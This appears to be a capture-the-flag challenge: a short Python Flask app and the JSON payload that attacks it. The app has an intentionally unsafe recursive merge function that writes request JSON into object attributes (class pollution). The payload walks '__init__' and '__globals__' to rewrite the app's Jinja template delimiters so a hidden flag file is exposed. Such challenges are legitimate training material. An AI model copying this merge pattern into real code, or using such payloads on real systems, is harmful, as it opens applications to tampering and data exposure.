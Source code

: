 ```python
from flask import Flask, request, render_template
import json

app = Flask(__name__)


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


class cls():
    def __init__(self):
        pass


instance = cls()


@app.route('/', methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index', methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag=open("flag", "rt").read())


app.run(host="0.0.0.0")
```

```python
{
    "__init__": {
        "__globals__": {
            "app": {
                "jinja_env" :{
                 "variable_start_string":"[[",
                 "variable_end_string":"]]"
               }        
            }
        }
    }
}
```
